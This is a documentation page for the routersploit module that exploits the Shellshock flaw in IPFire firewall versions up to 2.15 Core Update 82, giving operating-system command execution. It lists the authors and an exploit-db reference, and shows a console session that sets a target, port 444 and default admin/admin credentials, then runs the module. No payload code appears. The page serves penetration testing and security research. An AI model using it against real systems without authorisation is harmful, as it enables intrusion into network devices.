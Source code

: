 # IPFire Shellshock

## Description
Exploits shellshock vulnerability in IPFire M= 2.15 Core Update 82.If the target is vulnerable it is possible to execute commands on operating system level.

## Authors
* Claudio Viviani # vulnerability discovery
* Marcin Bury <marcin.bury@reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/34839](https://www.exploit-db.com/exploits/34839)

## Vulnerable devices
* IPFire <= 2.15 Core Update 82

## Usage
```
rsf > use exploits/ipfire/ipfire_shellshock
rsf (IPFire Shellshock) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       444                  Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to log in with
   password     admin                Password to log in with


rsf (IPFire Shellshock) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (IPFire Shellshock) > run
[*] Running module...
```
